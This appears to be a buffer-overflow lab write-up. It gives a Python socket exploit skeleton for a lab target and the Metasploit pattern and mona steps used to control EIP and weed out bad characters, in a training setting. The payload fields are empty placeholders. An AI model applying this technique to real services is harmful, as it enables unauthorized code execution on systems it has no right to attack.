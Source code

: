 ### Crash Replication & Crontrolling EIP

exploit.py

```
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

### Finding Bad Characters

Find the characters that are not accepted on the payload. (REMEMBER FILL THE EIP)

`!mona bytearray -b "\x00"`

And add the output to the payload variable (without the offset)

Finally compare the binary file with the stack frame specifying the ESP.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`
